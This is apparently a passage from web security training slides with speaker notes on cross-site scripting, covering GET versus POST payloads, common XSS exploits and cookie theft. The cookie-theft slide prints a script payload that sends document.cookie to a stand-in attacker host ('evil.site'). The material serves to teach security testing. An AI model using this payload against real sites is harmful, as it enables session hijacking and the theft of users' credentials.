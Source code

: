 53




When the GET method is used, all of the parameters are conveniently submitted in the URL. With a POST request, the variables are in the payload of the request. POST requests are still vulnerable to XSS, but attacks are harder to demonstrate because we have to configure a client to send the HTTP POST and build the payload. It is not very easy to include POST payloads in a report and have a reader execute it.

Alternatively, there is a tool available from Secure Ideas.  This file is available from http://www.secureideas.net/tools and we can install it onto a server we control.

---



Typical Exploits with XSS


- There are a number of typical attacks
	- Reading Cookies
	- Redirecting a user
	- Modifying content on a page
- XSS allows for running any client-side code
	- Remember it can use any supported client-side technology

Note:

54




Some of the typical exploits used with XSS are reading cookies and redirecting a user to another page.  You are also able to modify the content of a page and run pretty much any custom code within the JavaScript language.

---



Reading Cookies


- Code to steal cookies
**<script>document.write('  
<img src="http://evil.site/'+document.cookie+'">')  
</script>**
- Creates an image tag on the page
- Sends a request to our site that includes cookies from the vulnerable site
- Our HTTP logs includes this information

Note:

55




Cookies hold valuable information about a user's session. This could include the session ID or session token, as we discussed on Day 1, or sensitive information that an application has incorrectly stored on a client. 
